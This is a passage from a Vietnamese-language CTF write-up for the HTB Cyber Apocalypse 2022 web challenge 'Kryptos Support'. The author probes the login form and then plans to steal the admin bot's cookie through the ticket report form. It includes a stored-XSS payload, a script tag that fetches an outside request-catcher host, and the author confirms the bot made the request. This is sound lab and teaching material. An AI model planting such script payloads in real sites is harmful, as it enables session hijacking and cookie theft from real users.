 ```yaml
---
title: Cyber Apocalypse CTF 2022 - Writeup
tags: CTF
categories: CTF
toc: true
---
```

# HTB Cyber Apocalypse CTF 2022 - Web Writeup
## Kryptos Support
Dạo 1 vòng của trang thì nhận thấy như sau:
- Có 1 form report ở trang chủ, sau khi đưa input bất kì thì sẽ nhận được thông báo `An admin will review your ticket shortly!`.
=> Có thể đoán được là khi submit form với nội dung mình nhập vào thì bot sẽ truy cập vào và xem xét nội dung mình gửi lên.
- Tại trang đăng nhập, nếu đăng nhập thành công thì sẽ redirect tới `/tickets`. Thử với một vài query kiểm tra SQL Injection thì không thấy dump ra lỗi hay đăng nhập được nên tạm thời bỏ qua.

Nội dung hàm `auth` trong file `/static/js/login.js`:
```
async function auth() {
    await fetch(`/api/login`, {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify(data),
    })
    .then((response) => response.json()
        .then((resp) => {
            if (response.status == 200) {
                card.text(resp.message);
                card.show();
                window.location.href = '/tickets';
                return;
            }
            card.text(resp.message);
            card.show();
        }))
    .catch((error) => {
        card.text(error);
        card.show();
    });
}
```
Tới đây thì có thể suy nghĩ rằng phải có được account hoặc có thể lấy được cookie của bot để đăng nhập.
Quay lại form report, mình thử nhập mã HTML có chứa thẻ `script` để chạy mã Javascript nhằm lấy được cookie của bot để đăng nhập và có thể truy cập được vào `/tickets`.
```
<script>fetch('http://zndnjde4.requestrepo.com');</script>
```
Sau khi gửi payload thì chúng ta thấy là đã nhận được request tới của bot.
